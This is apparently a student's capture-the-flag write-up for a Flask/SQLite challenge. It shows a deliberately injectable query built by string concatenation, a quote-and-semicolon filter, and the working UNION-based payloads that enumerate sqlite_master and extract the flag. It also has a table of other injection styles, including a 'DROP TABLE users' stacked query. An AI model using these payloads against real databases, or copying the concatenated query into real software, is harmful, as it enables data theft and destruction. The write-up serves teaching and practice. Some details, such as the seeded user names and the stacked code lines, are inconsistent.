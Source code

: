 # SQLi_Filtered – Personalised Write‑up

**Category:** Web – 150 pts
**Flag:** `flag{sqli_filtered}`

---

## Simple Challenge Flow

1. The application only has a single point of GET /lookup?uid=<value>
2. Using `1` returns `User name: alice`, confirming there is a `users` table
3. By using all types of regex and the basic tests you see that the code blocks the quotes and semicolons, meaning that it must be Numeric SQL, this means the payload must be something like 0 UNION SELECT 1-- without quotes and semicolons
4. using 0 UNION SELECT sql FROM sqlite_master--, I can reveal that there is a table called very_secret
5. From here I can find the flag using 0 UNION SELECT flag FROM very_secret--
6. This reveals the flag of flag{sqli_filtered}


---


## How Difficulty Was Increased and Defence Mechanisms

I increased the difficulty by prohibiting the use of '," and ; through using a numeric solution when the normally, the solutions are string-based. I further used Generic error messages that would force blind experimentation instead of having the given error messages. I also recompiled the regex after each request to make a new compilation that would slightly obfuscates the code path. I implemented Quote and Semicolon to block ' OR 1=1-- and other similar classic solves. 


---

## Indepth Build and Solution Notes

### Build Section

This CTF challenge is a tiny flask web app that usese SQLite. It exposes one endpoint which is the GET /lookup?uid=<value> that looks up a user's name by uid and prints it. 
This task initially creates an sqlite file next to the script as a .db and it makes a flag of "flag{sqli_filtered}". It then creates 2 tables of users as users(uid, name) pre‑seeded with A/B/C and a very_secret(flag) containing the flag. At the lookup endpoint, the code gets a uid from the query string and blocks quotes and semicolons (returns HTTP 400) to stop obvious SQL payloads. The reason why SQL injections can appear for this task is because of the line 
```python
    query = "SELECT name FROM users WHERE uid = " + uid
    query = "SELECT name FROM users WHERE uid = ?", (int(uid),)
```
compared to the much safer version listed below it. This allows for sql injections as this task in particular is an integer-based in-band union based SQL injection, playing off the classic UNION-based sqli with a numeric filter that exludes string literals. This filter increases the difficulty by narrowing the attack surface and forcing knowledge of SQLite's schema and ordering tricks and column cardinality. I also limited the use of error checking in this test where the use of "return "SQL error", 400" as a result of regexing with certain commands that are used to usually test sql injections. 
To demonstrate this, here is a list of the common sql attacks and how they fail against the filter and how it forces certain difficulty. 

| Attack style | With Filter | Without Filter | Example payload | What happens / why|
| - | - | - | - | - |
| **Tautology** | **Yes** | **Yes** | `1 OR 1=1--` | WHERE becomes `uid = 1 OR 1=1` → many rows and app prints first (“A”). |
| **String‑based tautology** | **No** (needs quotes) | **Yes** | `0 OR 'a'='a'--` | Quotes make it easy to force TRUE but blocked in filtered version. |
| **UNION‑based** | **Yes** | **Yes** | `0 UNION SELECT flag FROM very_secret--` | Column count = 1 matches `name` and returns the flag.                                                               |
| **UNION + targeted schema query** | **Harder** (Solution Path) | **Yes** | `0 UNION SELECT sql FROM sqlite_master WHERE name='very_secret'--` | With quotes, it directly filter to the target table, without quotes, it’s simpler. |
| **Boolean‑based blind** | **Possible** (sql functions) | **Easier** (use quoted chars/LIKE)  | With filter: `1 AND substr((SELECT flag FROM very_secret),1,1)=char(102)--`  \| Without filter: `1 AND substr((SELECT flag FROM very_secret),1,1)='f'--` | You can get TRUE/FALSE by response difference (`User name: …` vs `Len=0`).                                         |
| **Error‑based** | **Weak** (generic “SQL error” hides details) | **Still weak** | `1'`  | App returns just “SQL error”, so you can’t infer from error text either way. |
| **Time‑based blind** | **N/A** | **N/A** | **N/A** | SQLite doesn’t have a sleep functions |
| **Stacked queries**  | **No** | **Yes** | `1; DROP TABLE users--` | `sqlite3.execute()` only allows one statement so stacked won’t run unless the app used `executescript()`. |




### Solution Section


0. Run the server
- Use python3 app.py in web-sqli-filtered
- Make sure that all dependencies are present
- head to the home page https://127.0.0.1:5000



1. Normal Request as Recon
- Request = `1`
- Response = `User name: A`
This confirms that there is a table and that it has a single-column at least

2. Filter Behabiour
- Request = `1;` or `1'`
- Response = `Nice try`
This confirms that the challenge has quotes and semicolon filtering, leading the user to not use quotes and instead use the union path.

3. Cardinality of Column
- Request = `0 UNION SELECT 1--`
- Response = `User name: 1`
This confirms that UNION is accepted in this task and allows for other UNION based request to be allowed

4. Schema enumeration
- Request = `0 UNION SELECT sql FROM sqlite_master--`
- Response = `CREATE TABLE ... very_secret(flag TEXT)`
This confirms the target table and column names without using quotes and requires general knowledge of sqlite.

5. Flag Extraction
- Request = `0 UNION SELECT flag FROM very_secret--`
- Response = `User name: flag{sqli_filtered}`
This confirms that the exploit path works ad shows the in-band leakage. 



## Related & Future Variants
- Blind‑SQLi via time‑based or Boolean‑based techniques when direct feedback is suppressed
- Second‑Order SQLi where inputs are stored in one context and later executed in a different query
- Out‑of‑band SQLi leveraging DNS/HTTP exfiltration to leak data when in‑band channels are filtered

---

### Sources
* **OWASP testing Guide** https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection
* **PentesterLab – SQL Injection** https://pentesterlab.com
* **PayloadsAllTheThings – SQLi** https://github.com/swisskyrepo/PayloadsAllTheThings
* **SQLite Docs** https://www.sqlite.org/lang_select.html
